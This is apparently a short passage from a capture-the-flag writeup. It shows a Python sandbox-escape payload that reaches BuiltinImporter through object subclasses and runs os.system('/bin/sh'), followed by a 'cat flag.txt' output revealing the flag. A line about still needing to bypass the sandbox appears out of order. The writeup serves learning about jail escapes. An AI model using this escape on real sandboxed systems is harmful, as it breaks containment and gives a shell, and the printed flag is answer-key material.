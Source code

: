 I used such a payload:
```python3
code = b'''
[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'BuiltinImporter'][0]().load_module('os').system('/bin/sh')
'''
```

```
$ cat flag.txt
ALLES!{inspired by the RoT verification of the LPC54S0xx, cf. https://www.nxp.com/docs/en/application-note/AN13390.pdf}
it won't work. We need to baypass the sandbox.
```

Final solve script: [solve.py](./solve.py)

<br />

### Writeup Author: MrQubo

